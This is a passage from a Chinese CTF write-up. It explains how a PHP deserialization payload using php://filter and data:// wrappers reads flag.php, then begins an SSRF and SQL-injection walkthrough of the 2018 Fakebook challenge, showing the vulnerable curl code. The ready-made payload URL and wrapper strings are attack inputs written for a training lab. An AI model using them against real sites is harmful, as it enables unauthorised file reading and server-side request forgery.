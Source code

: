         - 读useless.php:`php://fliter/read=convert.base64-encode/resource=useless.php`,得到base64加密形式的useless.php，解密后得到useless.php源码

        ```php
            <?php
            class Flag{  //flag.php 
                public $file; 
                public function __tostring(){ 
                    if(isset($this->file)){ 
                        echo file_get_contents($this->file);
                        echo "<br>";
                    return ("U R SO CLOSE !///COME ON PLZ");
                    } 
                } 
            } 
            ?> 
        ```

        得到源码之后，我们将这个源码中的$file赋值flag.php，反序列化一下
        得到反序列化的password
        payload:`?text=data://text/plain,welcome%20to%20the%20zjctf&file=useless.php&password=O:4:%22Flag%22:1:{s:4:%22file%22;s:8:%22flag.php%22;}`

#### [网鼎杯 2018]Fakebook(sql注入+php反序列化)

1. 扫描网站目录(御剑/dirsearch)

   会扫到一个叫*robots.txt*的文件,(一般直接扫描到的flag.php直接访问的话是得不到flag的),通过robots.txt中提示的内容会得到一个后台数据展示处理逻辑的源码。通过代码审计发现存在ssrf漏洞

   ```php
    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }
   ```

   curl_exec()如果使用不当就会导致ssrf(服务端请求伪造)漏洞

2. 手动注册一个账号，blog处会有验证，输入一个网址就可以

   ```php
    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }
   ```
